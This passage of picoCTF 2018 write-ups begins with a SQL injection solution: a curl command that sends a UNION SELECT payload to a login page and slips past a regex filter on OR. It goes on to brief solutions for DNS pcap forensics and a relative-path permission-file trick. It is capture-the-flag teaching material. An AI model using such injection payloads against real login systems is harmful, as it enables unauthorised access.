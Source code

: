 It does a regular expression search with pattern:
```
"/.*['\"].*OR.*/i"
```
So let's inject without the substring OR, so pattern doesn't match. For instance using UNION.
```
curl 'http://2018shell2.picoctf.com:22430/login.php' -d "username=a' UNION SELECT 1 FROM users; --&password=b&debug=1"
...
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{...
```

# What's My Name?
### Forensics: 250p
Say my name, say [my name](https://2018shell2.picoctf.com/static/b7e6f97343b1e36e6f34f762e95dd819/myname.pcap).

Lots of packets. But only the DNS packets seems readable. Filter on those by entering dns in the filter box. Now only
two packets are visible. The flag is in the second DNS packet, the answer.

# absolutely relative
### General Skills: 250p
In a filesystem, everything is relative ¯\\\_(ツ)\_/¯. Can you find a way to get a flag from this [program](https://2018shell2.picoctf.com/static/94e0cff2fa6fb11f5c85edccb8144415/absolutely-relative)?
You can find it in /problems/absolutely-relative\_4\_bef88c36784b44d2585bb4d2dbe074bd on the shell server. [Source](https://2018shell2.picoctf.com/static/94e0cff2fa6fb11f5c85edccb8144415/absolutely-relative.c).

Look at the source. It reads the file *./permission.txt*. If it begins with the string "yes" then you get the flag.
If you start the challenge from the directory of the executable it opens a permission.txt file that doesn't begin with yes.
Create a file in your home directory instead and start the challenge from there using a path to it.
```bash
cd
echo yes > permission.txt
/problems/absolutely-relative_4_bef88c36784b44d2585bb4d2dbe074bd/absolutely-relative
You have the write permissions.
picoCTF{...
```

# assembly-2
### Reversing: 250p
What does asm2(0x6,0x28) return? Submit the flag as a hexadecimal value (starting with '0x'). NOTE: Your submission for this question will NOT be in the normal flag format. [Source](https://2018shell2.picoctf.com/static/69e4ae9f3b62f70070a97e58168be574/loop_asm_rev.S) located in the directory at /problems/assembly-2\_0\_24775b87ffbbe8e643da10e71018f275.
